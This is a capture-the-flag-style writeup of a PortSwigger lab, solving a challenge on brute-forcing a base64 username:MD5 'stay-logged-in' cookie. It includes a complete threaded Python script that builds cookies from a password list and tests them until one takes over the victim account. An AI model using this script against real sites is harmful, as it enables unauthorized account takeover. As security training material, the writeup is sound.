 # Brute-forcing a stay-logged-in cookie

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie), you'll learn: Brute-forcing a stay-logged-in cookie! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222032100.png)

In here, we can see that there is a **`Stay logged in` checkbox**.

**Let's try to login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222032341.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222032405.png)

When we click the `Log in` button, **it'll send a POST request to `/login`, with parameter `username`, `password`, and `stay-logged-in`.**

Also, it sets a new cookie called `stay-logged-in`, and **the value looks like is base64 encoded!**

**Let's try to base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

**Hmm... Looks like the format is `username:password_hash`.**

**And that hash seems to be MD5. Let's use `hash-identifier` to verify that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# hash-identifier '51dc30ddc473d43a6011e9ebba6ca770' 
[...]
Possible Hashs:
[+] MD5
[...]
```

Yep, it's MD5 hash.

How about cracking it?

**An online tool called [CrackStation](https://crackstation.net/) may help us:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222032829.png)

Nice! The MD5 hash is the `wiener`'s password!

**Armed with above information, we can try to brute force user `carlos` password!**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from hashlib import md5
from base64 import b64encode

def fetchPassword(filename):
    listStayloggedinCookie = list()

    with open(filename) as fd:
        for line in fd:
            password = line.strip().encode('utf-8')
            MD5Hash = md5(password).hexdigest()
            base64Encoded = b64encode(f'carlos:{MD5Hash}'.encode('utf-8'))

            listStayloggedinCookie.append(base64Encoded)

    return listStayloggedinCookie

def sendRequest(url, cookieValue):
    cookie = {
        'session': 'h826pmhwmUE0tzA8p8tCgCh41CmBJTrU',
        'stay-logged-in': cookieValue
    }

    myaccountRequestText = requests.get(url, cookies=cookie).text

    if 'Log in' not in myaccountRequestText:
        print(f'[+] Found cookie: {cookieValue}')

def main():
    url = 'https://0a080047046d799ec0a38150005b0090.web-security-academy.net/my-account'

    passwordFileName = './auth_password.txt'
    listStayloggedinCookie = fetchPassword(passwordFileName)

    for cookieValue in listStayloggedinCookie:
        thread = Thread(target=sendRequest, args=(url, cookieValue.decode('ascii')))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_cookie.py
[+] Found cookie: Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm
```

- Found `carlos` `stay-logged-in` cookie: `Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm`

**Let's change our `stay-logged-in` cookie value to that:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222040631.png)

**Then go to `/my-account`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-9/images/Pasted%20image%2020221222040705.png)

We're user `carlos`!

# What we've learned:

1. Brute-forcing a stay-logged-in cookie